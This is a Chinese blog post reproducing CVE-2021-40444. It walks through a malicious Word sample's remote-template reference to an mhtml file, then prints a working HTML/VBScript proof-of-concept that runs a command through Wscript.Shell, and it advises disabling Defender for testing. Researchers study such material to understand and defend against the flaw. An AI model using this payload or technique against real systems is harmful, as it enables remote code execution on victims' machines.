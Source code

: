 #  CVE-2021-40444复现

原创 查鲁特 [ 边界骇客 ](javascript:void\(0\);)

**边界骇客** ![]()

微信号 no__root

功能介绍 科技向善，科技理应向善

____

__

收录于话题

**前言:这几天导出都是这个漏洞的通告，就简单看了下。  
**

 **  
**

 **1.CVE-2021-40444**

这个漏洞严格来说并不能算一个新的漏洞，Windows一些自身的产品如（office，outlook）能调用IE浏览器能执行ACTIVEX也不是啥新闻了，去年的时候我就有发一篇文章关于Outlook的滥用，造成命令执行。

  * 

    
    
    https://www.freebuf.com/articles/network/243747.html

![](https://gitee.com/fuli009/images/raw/master/public/20210910153729.png)

这边值得注意的一点就是，即使在新人中心禁用了office的ActiveX也是无效，因为最后执行ActiveX的是IE浏览器而非office(你们要抓的是周树人，和我鲁迅有什么关系？)  

![](https://gitee.com/fuli009/images/raw/master/public/20210910153730.png)

  

 **2.样本分析**

一开始没有样本，只有一串样本hash。通过反查hash绕了几层，最终在anyrun下载到样本。

  * 

    
    
    样本md5:d1837399df37757e5ebd04f45746301a

虚拟机打开样本:  

![](https://gitee.com/fuli009/images/raw/master/public/20210910153731.png)

典型远程模板加载的特征，看到触发方式和通报，利用姿势大概就猜到了，后面就暂时不看了。

* * *

  1. 把样本后缀改成zip，解压  

  2. 路径:word→_rels→document.xml.rels

![](https://gitee.com/fuli009/images/raw/master/public/20210910153732.png)

明显可以从文件中看到引用了mhtml，然后Windows默认浏览器执行ActiveX最后造成代码执行。

  

 **3.复现**

既然是老姿势，直接把配置文件地址，为我们服务器的地址。

![](https://gitee.com/fuli009/images/raw/master/public/20210910153733.png)

html内容改成弹计算器吧:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <html><head><meta http-equiv="Content-Language" content="en-us"><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"><title>Outlook</title><script id=clientEventHandlersVBS language=vbscript><!-- Sub window_onload()     Set cmd = CreateObject("Wscript.Shell")     cmd.Run("calc") End Sub--></script></head><body><h1>CVE-2021-40444</h1> <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object></body></html>

![](https://gitee.com/fuli009/images/raw/master/public/20210910153734.png)

  

 **写在最后:defender查的紧，需要关闭后测试。**

｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ防盗专用｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ

 ^_^文章来源：微信公众号（边界骇客） ^_^

![](https://gitee.com/fuli009/images/raw/master/public/20210910153736.png)

 **  
**  

![]()

查鲁特

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

CVE-2021-40444复现

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

